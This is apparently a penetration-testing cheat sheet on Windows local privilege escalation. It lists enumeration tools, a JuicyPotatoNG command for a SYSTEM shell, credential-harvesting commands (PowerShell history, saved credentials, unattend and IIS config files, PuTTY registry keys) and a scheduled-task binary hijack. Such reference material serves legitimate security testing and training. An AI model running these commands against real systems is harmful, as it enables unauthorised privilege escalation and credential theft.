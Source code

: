 ```yaml
---
description: A list of Privilege Escalation Techniques for Windows.
---
```


# Windows

## Local Privesc Scanner

### winPEAS

winPEAS is a script that search for possible paths to escalate privileges on **Windows** hosts.&#x20;

> **Github:** [https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

### PrivescCheck

This script aims to enumerate common Windows configuration issues that can be leveraged for local privilege escalation. It also gathers various information that might be useful for exploitation and/or post-exploitation.

> **Github:** [https://github.com/itm4n/PrivescCheck](https://github.com/itm4n/PrivescCheck)

### Windows Exploit Suggester - Next Generation (WES-NG)

**WES-NG** is a tool based on the output of Windows' `systeminfo` utility which provides the list of vulnerabilities the OS is vulnerable to, including any exploits for these vulnerabilities. Every Windows OS between Windows XP and Windows 11, including their Windows Server counterparts, is supported.

> **Github:** [https://github.com/bitsadmin/wesng](https://github.com/bitsadmin/wesng)

##  Automatic privesc tools

###  PowerUP

PowerUp aims to be a clearinghouse of common Windows privilege escalation vectors that rely on misconfigurations.

Running Invoke-AllChecks will output any identifiable vulnerabilities along with specifications for any abuse functions. The -HTMLReport flag will also generate a COMPUTER.username.html version of the report.

> **Github:** [PowerUP](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)

> ⚠️ This tool is no longer supported

###  Sherlock

PowerShell script to quickly find missing software patches for local privilege escalation vulnerabilities.

> **Github:** [Sherlock](https://github.com/rasta-mouse/Sherlock)

> ⚠️ This tool is no longer supported

###  Watson

Watson is a .NET tool designed to enumerate missing KBs and suggest exploits for Privilege Escalation vulnerabilities.

> **Github:** [Watson](https://github.com/rasta-mouse/Watson)

> ⚠️ This tool is no longer supported

## Impersonation

### JuicyPotatoNG

Allow a Windows Service Accounts to privesc to NT AUTHORITY\SYSTEM when `SeImpersonate` or `SeAssignPrimaryToken` privilege are enabled.

```bash
# Get a shell on the machine
.\JuicyPotatoNG.exe -t * -p "C:\windows\system32\cmd.exe" -i
```

> **Github:** [https://github.com/ohpe/juicy-potato](https://github.com/ohpe/juicy-potato)

##  Harvesting passwords

###  Unattended windows installations

Unattended windows installations require the use of an administrator account to perform the initial setup, which might end up being stored in the machine in the following locations:
```
C:\Unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml
```

Credentials could be stored in these files.

###  Powershell history

From cmd:
```cmd
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

From PowerShell:
```PowerShell
type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

### Windows saved credentials

Use the following command to list the saved credentials:
```PowerShell
cmdkey /list
```

If you see some saved credentials you can run a new shell as this user:
```
runas /savecred /user:privileged_user cmd.exe
```

###  IIS configuration

You might find IIS configuration files in the following locations:
```
C:\inetpub\wwwroot\web.config
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
```

You can search for "connectionString" to find some database credentials in the config file.
```cmd
type web.config | findstr connectionString
```

###  PuTTY proxy credentials

To retrieve the stored proxy credentials, you can search under the following registry key for ProxyPassword with the following command:
```PowerShell
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```

##  Missconfigurations

###  Scheduled tasks

Look for scheduled task that either lost its binary or it's using a binary you can modify.

List scheduled tasks:
```PowerShell
schtasks
```

See the details of a task:
```PowerShell
schtasks /query /tn vulnerable_task /fo list /v
```

The program executed by the task will be listed under "Task To Run:". If you can modify this binary, you can run code as the user running the task (listed under "Run as User:").
You can use `icacls` to check the file permissions.
```
C:\> icacls c:\tasks\schtask.bat
c:\tasks\schtask.bat NT AUTHORITY\SYSTEM:(I)(F)
                    BUILTIN\Administrators:(I)(F)
                    BUILTIN\Users:(I)(F)
```

In this example you can see that the groups who have "(F)" are the groups which have full access to the file.
If you are in one of these groups, you can replace it by your payload to execute the code you want, just keep the name used in the scheduled task.

##  Resources

[PayloadsAllTheThings - Windows Privesc](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)
